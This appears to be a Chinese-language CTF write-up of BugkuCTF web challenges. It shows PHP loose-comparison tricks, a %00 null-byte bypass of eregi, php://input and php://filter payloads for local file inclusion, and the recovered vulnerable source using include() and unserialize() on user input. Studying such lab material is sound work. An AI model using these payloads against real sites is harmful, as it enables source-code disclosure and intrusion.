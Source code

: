  其实直接在url里面写一个f4l2a3g.txt就可以得到flag了

 - 正解如下：

 题目的意思是要满足以下条件：

 - id不等于0
 - id弱等于0，那么查看php的表格发现字符串弱等于0，所以让id=“ijk”
 - b的第一个字符不等于4，又要让“111”.substr(b,0,1)和“1114”匹配起来。eregi函数可以用截断字符\x00绕过
    但是注意在输入url的时候\x00会被转码，导致url被截断。注意，虽然 b=%0012345 实际字符串长度为 8 字节，
    但在后台脚本读入数据时，会将 URL 编码 %00 转换成 1 字节。所以说，空字符应该在后台脚本的变量中出现，
    而不是在 URL 查询字符串变量中出现。

- $data 是由 file_get_contents() 函数读取变量 $a 的值而得，所以 $a 的值必须为数据流。
  在服务器中自定义一个内容为 bugku is a nice plateform! 文件，再把此文件路径赋值给 $a，显然不太现实。
  伪协议 php:// 来访问输入输出的数据流，其中 php://input 可以访问原始请求数据中的只读流。

所以构造如下：

    id="int"&b=%0012345&a=php://input 并在burp的请求头中添加bugku is a nice plateform!

## welcome to the bugkuctf

进入源代码界面，file_get_contents说明得是数据流，看到hint.php,然后再检索框里面输入：

    index.php?txt=php://input&file=hint.php
    并且在burpsuite中添加welcome to thebugkuctf
得到的只是hint.php的效果界面，要看到hint的源码，要这样输入

    index.php?txt=php://input&file=php://filter/read=convert.base64-encode/resource=hint.php

  输出一堆base64编码，解码得到

  ```php
  <?php

class Flag{//flag.php
    public $file;
    public function __tostring(){
        if(isset($this->file)){
            echo file_get_contents($this->file);
                        echo "<br>";
                return ("good");
        }
    }
}
?>
  ```

同样的道理，使用
index.php?txt=php://input&file=php://filter/read=convert.base64-encode/resource=index.php

解码得到了index.php的源代码。

```php
<?php
$txt = $_GET["txt"];
$file = $_GET["file"];
$password = $_GET["password"];

if(isset($txt)&&(file_get_contents($txt,'r')==="welcome to the bugkuctf")){
    echo "hello friend!<br>";
    if(preg_match("/flag/",$file)){
                echo "不能现在就给你flag哦";
        exit();
    }else{
        include($file);
        $password = unserialize($password);
        echo $password;
    }
```
